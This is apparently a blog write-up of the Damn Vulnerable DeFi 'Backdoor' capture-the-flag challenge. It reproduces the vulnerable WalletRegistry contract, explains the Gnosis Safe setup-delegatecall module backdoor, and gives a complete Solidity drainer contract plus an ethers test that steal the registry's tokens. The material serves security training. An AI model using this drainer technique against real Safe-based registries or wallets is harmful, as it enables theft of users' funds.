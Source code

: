 ```yaml
---
layout: post
title: 'Damn Vulnerable Defi 11: Backdoor'
category: Damn Vulnerable Defi
excerpt_separator:  <!--more-->
---
```


### Challenge:
Our eleventh challenge is called 'backdoor' and it comes with the following prompt:

```
To incentivize the creation of more secure wallets in their team, someone has deployed a registry of Gnosis Safe wallets. When someone in the team deploys and registers a wallet, they will earn 10 DVT tokens.

To make sure everything is safe and sound, the registry tightly integrates with the legitimate Gnosis Safe Proxy Factory, and has some additional safety checks.

Currently there are four people registered as beneficiaries: Alice, Bob, Charlie and David. The registry has 40 DVT tokens in balance to be distributed among them.

Your goal is to take all funds from the registry. In a single transaction.
```

We have to find a way to take the funds that are supposed to go to Alice, Bob, Charlie and David.

The contract for this challenge is located in contracts/backdoor/. The contract source code can be found below:

<details>
<summary> WalletRegistry.sol:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/access/Ownable.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@gnosis.pm/safe-contracts/contracts/GnosisSafe.sol";
import "@gnosis.pm/safe-contracts/contracts/proxies/IProxyCreationCallback.sol";

/**
 * @title WalletRegistry
 * @notice A registry for Gnosis Safe wallets.
           When known beneficiaries deploy and register their wallets, the registry sends some Damn Valuable Tokens to the wallet.
 * @dev The registry has embedded verifications to ensure only legitimate Gnosis Safe wallets are stored.
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract WalletRegistry is IProxyCreationCallback, Ownable {
    
    uint256 private constant MAX_OWNERS = 1;
    uint256 private constant MAX_THRESHOLD = 1;
    uint256 private constant TOKEN_PAYMENT = 10 ether; // 10 * 10 ** 18
    
    address public immutable masterCopy;
    address public immutable walletFactory;
    IERC20 public immutable token;

    mapping (address => bool) public beneficiaries;

    // owner => wallet
    mapping (address => address) public wallets;

    constructor(
        address masterCopyAddress,
        address walletFactoryAddress, 
        address tokenAddress,
        address[] memory initialBeneficiaries
    ) {
        require(masterCopyAddress != address(0));
        require(walletFactoryAddress != address(0));

        masterCopy = masterCopyAddress;
        walletFactory = walletFactoryAddress;
        token = IERC20(tokenAddress);

        for (uint256 i = 0; i < initialBeneficiaries.length; i++) {
            addBeneficiary(initialBeneficiaries[i]);
        }
    }

    function addBeneficiary(address beneficiary) public onlyOwner {
        beneficiaries[beneficiary] = true;
    }

    function _removeBeneficiary(address beneficiary) private {
        beneficiaries[beneficiary] = false;
    }

    /**
     @notice Function executed when user creates a Gnosis Safe wallet via GnosisSafeProxyFactory::createProxyWithCallback
             setting the registry's address as the callback.
     */
    function proxyCreated(
        GnosisSafeProxy proxy,
        address singleton,
        bytes calldata initializer,
        uint256
    ) external override {
        // Make sure we have enough DVT to pay
        require(token.balanceOf(address(this)) >= TOKEN_PAYMENT, "Not enough funds to pay");

        address payable walletAddress = payable(proxy);

        // Ensure correct factory and master copy
        require(msg.sender == walletFactory, "Caller must be factory");
        require(singleton == masterCopy, "Fake mastercopy used");
        
        // Ensure initial calldata was a call to `GnosisSafe::setup`
        require(bytes4(initializer[:4]) == GnosisSafe.setup.selector, "Wrong initialization");

        // Ensure wallet initialization is the expected
        require(GnosisSafe(walletAddress).getThreshold() == MAX_THRESHOLD, "Invalid threshold");
        require(GnosisSafe(walletAddress).getOwners().length == MAX_OWNERS, "Invalid number of owners");       

        // Ensure the owner is a registered beneficiary
        address walletOwner = GnosisSafe(walletAddress).getOwners()[0];

        require(beneficiaries[walletOwner], "Owner is not registered as beneficiary");

        // Remove owner as beneficiary
        _removeBeneficiary(walletOwner);

        // Register the wallet under the owner's address
        wallets[walletOwner] = walletAddress;

        // Pay tokens to the newly created wallet
        token.transfer(walletAddress, TOKEN_PAYMENT);        
    }
}

```
</div>
</details>


The hints and solutions for this level can be found below:

<details>
<summary> Hint 1:</summary>
<br>
<div markdown="1">
https://blog.openzeppelin.com/backdooring-gnosis-safe-multisig-wallets/
</div>
</details>

<details>
<summary> Hint 2:</summary>
<br>
<div markdown="1">
Other useful resources:
https://github.com/safe-global/safe-contracts/blob/186a21a74b327f17fc41217a927dea7064f74604/contracts/proxies/GnosisSafeProxyFactory.sol#L82-L91
https://github.com/safe-global/safe-contracts/blob/892448e93f6203b530630f20de45d8a55fde7463/contracts/GnosisSafe.sol#L76-L100
https://github.com/safe-global/safe-contracts/blob/c36bcab46578a442862d043e12a83fec41143dec/contracts/base/ModuleManager.sol#L20-L26
https://github.com/safe-global/safe-contracts/blob/v1.3.0/test/core/GnosisSafe.ModuleManager.spec.ts
</div>
</details>

<details>
<summary> Solution:</summary>
<br>
<div markdown="1">
This one was, in my opinion, significantly more difficult than the previous levels. It required uncovering a known exploitable issue with legitimate GnosisSafe deployments. Additionally, debugging was not a pleasant experience due to the lack of error messages for reverts that occurred when a new GnosisSafe proxy was created. It took far longer to chef up the attacking contract than it did to figure out what the actual problem was. 

After reading the contract, I didn't see an obvious vulnerability. I began to do some background research on Gnosis multisig wallets, and at one point I came across this OpenZeppelin blog post: https://blog.openzeppelin.com/backdooring-gnosis-safe-multisig-wallets/. I highly recommend reading this post if you haven't already. It contains all of the info needed to figure out how to pass this level. Essentially, the issue arises because of two unique design choices:
1. Gnosis safe multisigs allow for the creation of 'modules' which are actions that can be executed without the consent of the individual signers (effectively bypassing the multisig requirements).
2. During Gnosis safe multisig proxy creation, the deployer is able to pass in arbitrary data to a delegatecall within the multisig contract.

By combining these two, we can see that it is possible for a deployer to set up a module in the newly deployed Gnosis safe multisig that can then be executed without the owner's permission. Tying this back to the challenge, it becomes clear that the registry pays out the proxy for newly created Gnosis safe multisigs as long as the owner of the multisig is part of the registry. If the deployer is using the legitimate singleton address and factory for deployment, they can be anybody. Since we can be the deployer and the deployer has the ability to exploit the two issues stated above, we can 'backdoor' these wallets by setting up a module during deployment.

The full attack path looks like this:
1. Create a data payload that will call the setup function on the newly created Gnosis safe multisig. We will pass into this both our malicious contract's address and the encoded data for any function of our choice (remember, this function on our contract will be delegate called by the newly created multisig).
2. Call `createProxyWithCallback` with the singleton address, our data payload, a random nonce, and the registry so that it can process the callback.
3. During creation of the new multisig, the proxy will call the `setup()` function for the new multisig which will in turn make a delegatecall to our contract and call our module (which simply executes an approval to spend DVTs using the multisig as the msg.sender).
4. The deployment will complete and pass all of the necessary checks (its owner will truly be either Alice, Bob, Charlie or David). Payment from the registry will be sent to the multisig.
5. In the same transaction, we will abuse our approval form the module to call `transferFrom()` and take the DVTs that were sent to the multisigs


</div>
</details>

<details>
<summary> Ethers Solution:</summary>
<br>
<div markdown="1">
```
    it('Exploit', async function () {
     /** CODE YOUR EXPLOIT HERE */

    const WalletRegistryAttackFactory = await ethers.getContractFactory('WalletRegistryDrainer', deployer);
    this.wr_attacker = await WalletRegistryAttackFactory.deploy(this.walletFactory.address, this.walletRegistry.address, this.token.address);

     await this.wr_attacker.attack(users, this.masterCopy.address, this.token.address, attacker.address);
    });
```
</div>
</details>

<details>
<summary> Contract Solution:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

/*
 * @title WalletRegistryDrainer.sol
 * @author securerodd
 */
 import "@gnosis.pm/safe-contracts/contracts/proxies/IProxyCreationCallback.sol";
 import "@gnosis.pm/safe-contracts/contracts/proxies/GnosisSafeProxyFactory.sol";
 import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

 interface IWalletFactory {
   function createProxy(address, bytes memory) external;
   function createProxyWithCallback(address, bytes memory, uint256, IProxyCreationCallback callback) external returns (GnosisSafeProxy);
}

contract WalletRegistryDrainer {
    IWalletFactory walletFactory;
    address walletRegistry;
    IERC20 token;

    constructor(address _wallet_factory, address _wallet_registry, address _token) {
        walletFactory = IWalletFactory(_wallet_factory);
        walletRegistry = _wallet_registry;
        token = IERC20(_token);
    }
    
    function attack(address[] calldata _owners, address _singleton, address _tokenAddress, address _attacker) external {
        bytes memory data = abi.encodeWithSignature("setUpModule(address,address)", _tokenAddress, address(this));
        uint256 owners_length = _owners.length;
        for (uint256 i; i < owners_length;) {
            address users = _owners[i];
            address[] memory user = new address[](1);
            user[0] = users;

            bytes memory proxyInitData = abi.encodeWithSignature(
                "setup(address[],uint256,address,bytes,address,address,uint256,address)",
                user,
                1,
                address(this),
                data,
                address(0),
                address(0),
                0,
                address(0)
            );

            GnosisSafeProxy GSP = walletFactory.createProxyWithCallback(_singleton, proxyInitData, i, IProxyCreationCallback(walletRegistry));
            token.transferFrom(address(GSP), _attacker, 10 ether);

            unchecked { ++i; }
        }
    }

    function setUpModule(address _token, address _contract) external {
        IERC20(_token).approve(_contract, 10 ether);
    }

}
```
</div>
</details>
